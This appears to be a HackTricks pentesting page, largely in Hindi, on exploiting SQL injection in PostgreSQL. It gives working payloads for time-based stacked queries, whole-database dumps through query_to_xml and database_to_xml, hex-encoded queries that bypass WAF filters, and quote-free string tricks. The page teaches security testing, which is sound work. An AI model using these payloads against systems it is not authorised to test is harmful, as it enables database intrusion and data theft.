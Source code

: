 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अचूक को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**यह पृष्ठ विभिन्न तकनीकों को समझाने का लक्ष्य रखता है जो आपको PostgreSQL डेटाबेस में पाए गए SQL इंजेक्शन का शोषण करने में मदद कर सकती हैं और उन तकनीकों को पूरा कर सकती हैं जो आप** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **पर पा सकते हैं।**

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**PostgreSQL मॉड्यूल `dblink`** अन्य PostgreSQL उदाहरणों से कनेक्ट करने और TCP कनेक्शन निष्पादित करने की क्षमताएँ प्रदान करता है। ये सुविधाएँ, `COPY FROM` कार्यक्षमता के साथ मिलकर, विशेषाधिकार वृद्धि, पोर्ट स्कैनिंग, और NTLM चुनौती प्रतिक्रिया कैप्चर जैसी क्रियाओं को सक्षम बनाती हैं। इन हमलों को निष्पादित करने के विस्तृत तरीकों के लिए देखें कि [इन हमलों को कैसे करें](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **dblink और बड़े ऑब्जेक्ट्स का उपयोग करके एक्सफिल्ट्रेशन उदाहरण**

आप [**इस उदाहरण को पढ़ सकते हैं**](dblink-lo_import-data-exfiltration.md) यह देखने के लिए कि **कैसे बड़े ऑब्जेक्ट्स के अंदर डेटा लोड करें और फिर फ़ंक्शन `dblink_connect` के उपयोगकर्ता नाम के अंदर बड़े ऑब्जेक्ट्स की सामग्री को एक्सफिल्ट्रेट करें।**

## PostgreSQL हमले: पढ़ें/लिखें, RCE, प्रिवेस्क

देखें कि PostgreSQL से होस्ट को कैसे समझौता करें और विशेषाधिकार कैसे बढ़ाएं:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF बायपास

### PostgreSQL स्ट्रिंग फ़ंक्शन

स्ट्रिंग्स को मैनिपुलेट करना आपको **WAFs या अन्य प्रतिबंधों को बायपास करने में मदद कर सकता है।**\
[**इस पृष्ठ पर**](https://www.postgresqltutorial.com/postgresql-string-functions/) **आप कुछ उपयोगी स्ट्रिंग फ़ंक्शन पा सकते हैं।**

### स्टैक्ड क्वेरीज़

याद रखें कि PostgreSQL स्टैक्ड क्वेरीज़ का समर्थन करता है, लेकिन कई एप्लिकेशन एक त्रुटि फेंक देंगे यदि 2 प्रतिक्रियाएँ लौटाई जाती हैं जबकि केवल 1 की अपेक्षा की जाती है। लेकिन, आप अभी भी टाइम इंजेक्शन के माध्यम से स्टैक्ड क्वेरीज़ का दुरुपयोग कर सकते हैं:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML ट्रिक्स

**query\_to\_xml**

यह फ़ंक्शन केवल एक फ़ाइल में XML प्रारूप में सभी डेटा लौटाएगा। यदि आप केवल 1 पंक्ति में बहुत सारा डेटा डंप करना चाहते हैं तो यह आदर्श है:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

यह फ़ंक्शन पूरे डेटाबेस को XML प्रारूप में केवल 1 पंक्ति में डंप करेगा (यदि डेटाबेस बहुत बड़ा है तो सावधान रहें क्योंकि आप इसे DoS कर सकते हैं या यहां तक कि अपने स्वयं के क्लाइंट को भी):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

यदि आप **क्वेरीज़** चला सकते हैं जो **एक स्ट्रिंग के अंदर** पास की जाती हैं (उदाहरण के लिए **`query_to_xml`** फ़ंक्शन का उपयोग करके)। **आप स्ट्रिंग को हेक्स के रूप में पास करने के लिए convert\_from का उपयोग कर सकते हैं और इस तरह फ़िल्टर को बायपास कर सकते हैं:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### निषिद्ध उद्धरण

यदि आप अपने पेलोड के लिए उद्धरण का उपयोग नहीं कर सकते हैं, तो आप इसे `CHR` के साथ बायपास कर सकते हैं बुनियादी क्लॉज़ के लिए (_अक्षर संयोजन केवल बुनियादी प्रश्नों जैसे SELECT, INSERT, DELETE, आदि के लिए काम करता है। यह सभी SQL बयानों के लिए काम नहीं करता_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
या `$` के साथ। ये क्वेरी समान परिणाम लौटाती हैं:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अजेय को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) जांचें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
